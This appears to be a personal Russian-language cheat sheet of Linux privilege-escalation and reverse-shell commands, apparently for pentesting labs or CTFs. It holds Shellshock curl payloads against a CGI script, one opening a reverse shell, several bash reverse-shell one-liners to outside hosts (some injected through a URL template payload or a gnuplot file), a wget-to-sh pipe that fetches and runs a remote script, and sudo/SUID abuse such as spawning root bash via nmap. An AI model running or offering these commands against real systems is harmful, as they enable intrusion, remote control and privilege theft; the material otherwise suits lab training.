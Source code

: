 

Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

Информация о системе в txt-файле:

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-

       сетевые интерфейсы, порты, службы;
       netstat

curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null

 TF=$(mktemp) 
 echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF 

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения


https://github.com/rebootuser/LinEnum
реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор


https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty командой 
python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# Найти строки из всех файлов где есть passw
cat * | grep -i passw*

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;
find / -user root -perm -u=s -type f 2>/dev/null
